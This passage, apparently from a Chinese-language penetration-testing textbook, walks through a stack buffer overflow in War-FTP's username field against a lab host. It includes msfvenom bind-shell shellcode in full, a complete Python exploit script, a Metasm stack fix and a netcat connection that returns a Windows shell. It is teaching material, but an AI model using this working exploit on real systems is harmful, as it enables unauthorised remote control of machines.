接下来的命令将在 Immunity Debugger 窗口的 CPU 面板左上方显示。使用 F7 一次执行一个命令，而不是让程序继续正常运行。我们按 **F7** 两次来执行 `PUSH ESP` 和 `RET` 指令，并且如预期的那样，执行被重定向到我们的 *D*s（十六进制的 44），如图 17-14 所示。

图 17-14. 将执行重定向到我们的攻击字符串

## 获取一个 Shell

现在，我们只需将前一节中的 *D*s 替换成一些有用的内容，以便 CPU 代表我们执行。在第四章中，我们使用 Metasploit 工具 Msfvenom 生成了恶意可执行文件。我们也可以使用它生成原始的 shellcode，放入我们手写的利用程序中。例如，我们可以告诉被劫持的 CPU 在 TCP 端口 4444（或任何其他端口）上打开一个绑定 Shell，通过使用 Msfvenom 生成 Metasploit 负载的 shellcode。

我们需要告诉 Msfvenom 使用哪种负载——在这个例子中是 *windows/shell_bind_tcp*，即内联 Windows 命令 Shell。我们还需要提供它能用于我们 shellcode 的最大大小。

### 注意

在你尝试崩溃 War-FTP 时，你会注意到实际上可以将攻击字符串稍微增大，但在大约 1,150 个字符时，事情开始变得异常。（我们将在第十八章中看到这一点。）在 1,100 个字符时我们是安全的，并且我们的利用将按预期每次都能正常工作。

我们当前的利用字符串包含 607 个 *D*s，因此我们有 607 字节的空间用于我们的 shellcode。最后，我们需要告诉 Msfvenom 在创建负载时应避免哪些特殊字符。在这种情况下，我们需要避免空字节（\x00）、回车符（\x0d）、换行符（\x0a）和 @（\x40）。

### 注意

查找坏字符是一个高级主题，超出了本书的范围，所以请相信我，这些是适用于此利用的正确字符。这些坏字符是有原因的：空字节（null byte）终止字符串，回车符（carriage return）和换行符（line feed）表示新的一行，*＠* 将破坏 *user@server* 的 FTP 登录语法。欲了解更多信息，请查看我的博客文章“使用 Immunity Debugger 和 Mona.py 查找坏字符”（*[`www.bulbsecurity.com/finding-bad-characters-with-immunity-debugger-and-mona-py/`](http://www.bulbsecurity.com/finding-bad-characters-with-immunity-debugger-and-mona-py/)*）。

将这些信息输入到 Msfvenom 中，如示例 17-6 所示。

示例 17-6. 使用 Msfvenom 生成 shellcode

```
root@kali:~# msfvenom -p windows/shell_bind_tcp -s 607 -b '\x00\x40\x0a\x0d'
[*] x86/shikata_ga_nai succeeded with size 368 (iteration=1)
buf =
"\xda\xd4\xd9\x74\x24\xf4\xba\xa6\x39\x94\xcc\x5e\x2b\xc9" +
"\xb1\x56\x83\xee\xfc\x31\x56\x14\x03\x56\xb2\xdb\x61\x30" +
"\x52\x92\x8a\xc9\xa2\xc5\x03\x2c\x93\xd7\x70\x24\x81\xe7" +
"\xf3\x68\x29\x83\x56\x99\xba\xe1\x7e\xae\x0b\x4f\x59\x81" +
"\x8c\x61\x65\x4d\x4e\xe3\x19\x8c\x82\xc3\x20\x5f\xd7\x02" +
"\x64\x82\x17\x56\x3d\xc8\x85\x47\x4a\x8c\x15\x69\x9c\x9a" +
"\x25\x11\x99\x5d\xd1\xab\xa0\x8d\x49\xa7\xeb\x35\xe2\xef" +
"\xcb\x44\x27\xec\x30\x0e\x4c\xc7\xc3\x91\x84\x19\x2b\xa0" +
"\xe8\xf6\x12\x0c\xe5\x07\x52\xab\x15\x72\xa8\xcf\xa8\x85" +
"\x6b\xad\x76\x03\x6e\x15\xfd\xb3\x4a\xa7\xd2\x22\x18\xab" +
"\x9f\x21\x46\xa8\x1e\xe5\xfc\xd4\xab\x08\xd3\x5c\xef\x2e" +
"\xf7\x05\xb4\x4f\xae\xe3\x1b\x6f\xb0\x4c\xc4\xd5\xba\x7f" +
"\x11\x6f\xe1\x17\xd6\x42\x1a\xe8\x70\xd4\x69\xda\xdf\x4e" +
"\xe6\x56\xa8\x48\xf1\x99\x83\x2d\x6d\x64\x2b\x4e\xa7\xa3" +
"\x7f\x1e\xdf\x02\xff\xf5\x1f\xaa\x2a\x59\x70\x04\x84\x1a" +
"\x20\xe4\x74\xf3\x2a\xeb\xab\xe3\x54\x21\xda\x23\x9b\x11" +
"\x8f\xc3\xde\xa5\x3e\x48\x56\x43\x2a\x60\x3e\xdb\xc2\x42" +
"\x65\xd4\x75\xbc\x4f\x48\x2e\x2a\xc7\x86\xe8\x55\xd8\x8c" +
"\x5b\xf9\x70\x47\x2f\x11\x45\x76\x30\x3c\xed\xf1\x09\xd7" +
"\x67\x6c\xd8\x49\x77\xa5\x8a\xea\xea\x22\x4a\x64\x17\xfd" +
"\x1d\x21\xe9\xf4\xcb\xdf\x50\xaf\xe9\x1d\x04\x88\xa9\xf9" +
"\xf5\x17\x30\x8f\x42\x3c\x22\x49\x4a\x78\x16\x05\x1d\xd6" +
"\xc0\xe3\xf7\x98\xba\xbd\xa4\x72\x2a\x3b\x87\x44\x2c\x44" +
"\xc2\x32\xd0\xf5\xbb\x02\xef\x3a\x2c\x83\x88\x26\xcc\x6c" +
"\x43\xe3\xfc\x26\xc9\x42\x95\xee\x98\xd6\xf8\x10\x77\x14" +
"\x05\x93\x7d\xe5\xf2\x8b\xf4\xe0\xbf\x0b\xe5\x98\xd0\xf9" +
"\x09\x0e\xd0\x2b"
```

Msfvenom 生成的 shellcode 大小为 368 字节，给我们留出了足够的空间。将漏洞利用中的*D*替换为生成的 shellcode，如示例 17-7 所示。

示例 17-7. 我们完成的漏洞利用

```
root@kali:~# cat ftpexploit
#!/usr/bin/python
import socket
shellcode = ("\xda\xd4\xd9\x74\x24\xf4\xba\xa6\x39\x94\xcc\x5e\x2b\xc9" +
"\xb1\x56\x83\xee\xfc\x31\x56\x14\x03\x56\xb2\xdb\x61\x30" +
"\x52\x92\x8a\xc9\xa2\xc5\x03\x2c\x93\xd7\x70\x24\x81\xe7" +
"\xf3\x68\x29\x83\x56\x99\xba\xe1\x7e\xae\x0b\x4f\x59\x81" +
"\x8c\x61\x65\x4d\x4e\xe3\x19\x8c\x82\xc3\x20\x5f\xd7\x02" +
"\x64\x82\x17\x56\x3d\xc8\x85\x47\x4a\x8c\x15\x69\x9c\x9a" +
"\x25\x11\x99\x5d\xd1\xab\xa0\x8d\x49\xa7\xeb\x35\xe2\xef" +
"\xcb\x44\x27\xec\x30\x0e\x4c\xc7\xc3\x91\x84\x19\x2b\xa0" +
"\xe8\xf6\x12\x0c\xe5\x07\x52\xab\x15\x72\xa8\xcf\xa8\x85" +
"\x6b\xad\x76\x03\x6e\x15\xfd\xb3\x4a\xa7\xd2\x22\x18\xab" +
"\x9f\x21\x46\xa8\x1e\xe5\xfc\xd4\xab\x08\xd3\x5c\xef\x2e" +
"\xf7\x05\xb4\x4f\xae\xe3\x1b\x6f\xb0\x4c\xc4\xd5\xba\x7f" +
"\x11\x6f\xe1\x17\xd6\x42\x1a\xe8\x70\xd4\x69\xda\xdf\x4e" +
"\xe6\x56\xa8\x48\xf1\x99\x83\x2d\x6d\x64\x2b\x4e\xa7\xa3" +
"\x7f\x1e\xdf\x02\xff\xf5\x1f\xaa\x2a\x59\x70\x04\x84\x1a" +
"\x20\xe4\x74\xf3\x2a\xeb\xab\xe3\x54\x21\xda\x23\x9b\x11" +
"\x8f\xc3\xde\xa5\x3e\x48\x56\x43\x2a\x60\x3e\xdb\xc2\x42" +
"\x65\xd4\x75\xbc\x4f\x48\x2e\x2a\xc7\x86\xe8\x55\xd8\x8c" +
"\x5b\xf9\x70\x47\x2f\x11\x45\x76\x30\x3c\xed\xf1\x09\xd7" +
"\x67\x6c\xd8\x49\x77\xa5\x8a\xea\xea\x22\x4a\x64\x17\xfd" +
"\x1d\x21\xe9\xf4\xcb\xdf\x50\xaf\xe9\x1d\x04\x88\xa9\xf9" +
"\xf5\x17\x30\x8f\x42\x3c\x22\x49\x4a\x78\x16\x05\x1d\xd6" +
"\xc0\xe3\xf7\x98\xba\xbd\xa4\x72\x2a\x3b\x87\x44\x2c\x44" +
"\xc2\x32\xd0\xf5\xbb\x02\xef\x3a\x2c\x83\x88\x26\xcc\x6c" +
"\x43\xe3\xfc\x26\xc9\x42\x95\xee\x98\xd6\xf8\x10\x77\x14" +
"\x05\x93\x7d\xe5\xf2\x8b\xf4\xe0\xbf\x0b\xe5\x98\xd0\xf9" +
"\x09\x0e\xd0\x2b")
buffer = "A" * 485 + "\x59\x54\xc3\x77" + "C" * 4 + shellcode
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
connect=s.connect(('192.168.20.10',21))
response = s.recv(1024)
print response
s.send('USER ' + buffer  + '\r\n')
response = s.recv(1024)
print response
s.send('PASS PASSWORD\r\n')
s.close()
```

当你尝试运行漏洞利用时，出现了意外的情况。虽然我们仍然能够命中断点并将执行重定向到我们的 shellcode，但 War-FTP 在我们收到绑定到端口 4444 的 shell 之前崩溃了。shellcode 中的某些部分导致了崩溃，详情见图 17-15。

图 17-15. War-FTP 崩溃

Msfvenom 生成的编码 shellcode 在执行之前需要先解码，在解码过程中，它需要使用一个名为 getPC 的例程来找到自己在内存中的位置。查找当前内存位置的常用技术包括使用`FSTENV`指令，它将一个结构写入栈中，覆盖栈中的内容——在我们的情况下，部分 shellcode 就被覆盖了。我们需要做的就是将 ESP 从 shellcode 中移开，以便 getPC 有足够的空间执行，而不会破坏我们的 shellcode。（一般来说，问题是如果 EIP 和 ESP 的值太接近，shellcode 往往会自我破坏，无论是在解码过程中还是执行过程中。）这就是我们在上一次运行中崩溃的原因。

我们可以使用 Metasm 工具将简单的汇编指令转换为可以插入漏洞利用中的 shellcode。我们需要将 ESP 从内存中的 shellcode 位置移开。我们可以使用汇编指令`ADD`来完成此操作。其语法为`ADD` *`destination, amount`*。由于我们的栈使用较低的内存地址，因此我们从 ESP 中减去 1,500 字节。这个字节数应该足够大，以避免破坏；1,500 字节通常是一个安全的选择。

更改目录到*/usr/share/metasploit-framework/tools*并启动*metasm_shell.rb*，如示例 17-8 所示。

示例 17-8. 使用 Metasm 生成 shellcode

```
root@kali:~# cd /usr/share/metasploit-framework/tools/
root@kali:/usr/share/metasploit-framework/tools# ./metasm_shell.rb
type "exit" or "quit" to quit
use ";" or "\n" for newline
metasm > **sub esp, 1500**❶
"\x81\xec\xdc\x05\x00\x00"
metasm > **add esp, -1500**❷
"\x81\xc4\x24\xfa\xff\xff"
```

如果我们尝试**`sub esp, 1500`** ❶，生成的 shellcode 会包含 null 字节，正如之前讨论的，null 字节是需要避免的坏字符，因为 FTP 规范要求避免使用它。相反，在`metasm`提示符中输入**`add esp, -1500`** ❷（一个逻辑等价操作）。

现在将生成的 shellcode 添加到漏洞利用中，放置在*windows/shell_bind_tcp* shellcode 之前，如示例 17-9 所示。

示例 17-9. 将 ESP 移开后的漏洞利用

```
#!/usr/bin/python
import socket
shellcode = ("\xda\xd4\xd9\x74\x24\xf4\xba\xa6\x39\x94\xcc\x5e\x2b\xc9" +
"\xb1\x56\x83\xee\xfc\x31\x56\x14\x03\x56\xb2\xdb\x61\x30" +
"\x52\x92\x8a\xc9\xa2\xc5\x03\x2c\x93\xd7\x70\x24\x81\xe7" +
"\xf3\x68\x29\x83\x56\x99\xba\xe1\x7e\xae\x0b\x4f\x59\x81" +
"\x8c\x61\x65\x4d\x4e\xe3\x19\x8c\x82\xc3\x20\x5f\xd7\x02" +
"\x64\x82\x17\x56\x3d\xc8\x85\x47\x4a\x8c\x15\x69\x9c\x9a" +
"\x25\x11\x99\x5d\xd1\xab\xa0\x8d\x49\xa7\xeb\x35\xe2\xef" +
"\xcb\x44\x27\xec\x30\x0e\x4c\xc7\xc3\x91\x84\x19\x2b\xa0" +
"\xe8\xf6\x12\x0c\xe5\x07\x52\xab\x15\x72\xa8\xcf\xa8\x85" +
"\x6b\xad\x76\x03\x6e\x15\xfd\xb3\x4a\xa7\xd2\x22\x18\xab" +
"\x9f\x21\x46\xa8\x1e\xe5\xfc\xd4\xab\x08\xd3\x5c\xef\x2e" +
"\xf7\x05\xb4\x4f\xae\xe3\x1b\x6f\xb0\x4c\xc4\xd5\xba\x7f" +
"\x11\x6f\xe1\x17\xd6\x42\x1a\xe8\x70\xd4\x69\xda\xdf\x4e" +
"\xe6\x56\xa8\x48\xf1\x99\x83\x2d\x6d\x64\x2b\x4e\xa7\xa3" +
"\x7f\x1e\xdf\x02\xff\xf5\x1f\xaa\x2a\x59\x70\x04\x84\x1a" +
"\x20\xe4\x74\xf3\x2a\xeb\xab\xe3\x54\x21\xda\x23\x9b\x11" +
"\x8f\xc3\xde\xa5\x3e\x48\x56\x43\x2a\x60\x3e\xdb\xc2\x42" +
"\x65\xd4\x75\xbc\x4f\x48\x2e\x2a\xc7\x86\xe8\x55\xd8\x8c" +
"\x5b\xf9\x70\x47\x2f\x11\x45\x76\x30\x3c\xed\xf1\x09\xd7" +
"\x67\x6c\xd8\x49\x77\xa5\x8a\xea\xea\x22\x4a\x64\x17\xfd" +
"\x1d\x21\xe9\xf4\xcb\xdf\x50\xaf\xe9\x1d\x04\x88\xa9\xf9" +
"\xf5\x17\x30\x8f\x42\x3c\x22\x49\x4a\x78\x16\x05\x1d\xd6" +
"\xc0\xe3\xf7\x98\xba\xbd\xa4\x72\x2a\x3b\x87\x44\x2c\x44" +
"\xc2\x32\xd0\xf5\xbb\x02\xef\x3a\x2c\x83\x88\x26\xcc\x6c" +
"\x43\xe3\xfc\x26\xc9\x42\x95\xee\x98\xd6\xf8\x10\x77\x14" +
"\x05\x93\x7d\xe5\xf2\x8b\xf4\xe0\xbf\x0b\xe5\x98\xd0\xf9" +
"\x09\x0e\xd0\x2b")
buffer = "A" * 485 + "\x59\x54\xc3\x77" + "C" * 4 + "\x81\xc4\x24\xfa\xff\xff" + shellcode
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
connect=s.connect(('192.168.20.10',21))
response = s.recv(1024)
print response
s.send('USER ' + buffer  + '\r\n')
response = s.recv(1024)
print response
s.send('PASS PASSWORD\r\n')
s.close()
```

将 ESP 移开后，并且确保我们的 shellcode 在解码或执行过程中不会被破坏，再次运行漏洞利用，并使用 Kali Linux 上的 Netcat 连接到 Windows 目标的 TCP 端口 4444，如下所示。

```
root@kali:~# nc 192.168.20.10 4444
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

C:\Documents and Settings\Georgia\Desktop>
```

果然，我们现在在 Windows 目标上拥有了一个 shell，如上面所示的 Windows 命令提示符所示。

## 总结

在这一章中，我们运用了来自第十六章的知识，利用一个真实世界中的易受攻击程序：War-FTP 程序，该程序在用户名字段存在缓冲区溢出问题。我们使程序崩溃并定位了返回地址，然后，我们并没有为被覆盖的返回地址硬编码一个内存地址，而是找到了一个在加载的 DLL 中的`JMP ESP`指令。接着，我们用 Msfvenom 生成的 shellcode 填充了攻击者控制的 ESP 寄存器。现在，我们已经成功劫持了一个真实程序的控制。

在下一章中，我们将研究另一种 Windows 利用技术——结构化异常处理程序覆盖。
